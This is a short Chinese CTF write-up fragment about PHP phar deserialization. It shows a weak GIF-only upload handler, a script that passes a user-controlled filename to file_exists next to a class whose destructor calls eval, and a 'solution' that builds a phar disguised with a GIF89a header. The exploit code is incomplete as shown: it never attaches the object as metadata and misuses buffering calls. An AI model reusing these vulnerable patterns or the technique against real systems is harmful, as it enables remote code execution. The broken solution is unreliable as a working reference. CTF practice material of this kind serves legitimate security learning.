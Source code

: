 ### 实战 CTF
```php
#upload_file.php
?php
if (($_FILES["file"]["type"]=="image/gif")&&(substr($_FILES["file"]["name"], strrpos($_FILES["file"]["name"], '.')+1))== 'gif') {
    echo "Upload: " . $_FILES["file"]["name"];
    echo "Type: " . $_FILES["file"]["type"];
    echo "Temp file: " . $_FILES["file"]["tmp_name"];

    if (file_exists("upload_file/" . $_FILES["file"]["name"]))
    {
        echo $_FILES["file"]["name"] . " already exists. ";
    }
    else
    {
        move_uploaded_file($_FILES["file"]["tmp_name"],
            "upload_file/" .$_FILES["file"]["name"]);
        echo "Stored in: " . "upload_file/" . $_FILES["file"]["name"];
    }
}
else
{
    echo "Invalid file,you can only upload gif";
}
```

```php
# upload_file.html
<body>
<form action="http://127.0.0.1/test/upload_file.php" method="post" enctype="multipart/form-data">
    <input type="file" name="file" />
    <input type="submit" name="Upload" />
</form>
</body>
```

```php
# file_un.php
<?php
$filename=$_GET['filename'];
class AnyClass{
    var $output = 'echo "ok";';
    function __destruct()
    {
        eval($this -> output);
    }
}
file_exists($filename);
```

解法：(然后改为后缀名为gif)
```php
<?php
class AnyClass{
    var $output = 'echo "ok";';
    function __destruct()
    {
        eval($this -> output);
    }
}
$phar = new Phar('123.phar');
$phar -> stopBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar -> addFromString('test.txt','test');
$object = new AnyClass();
```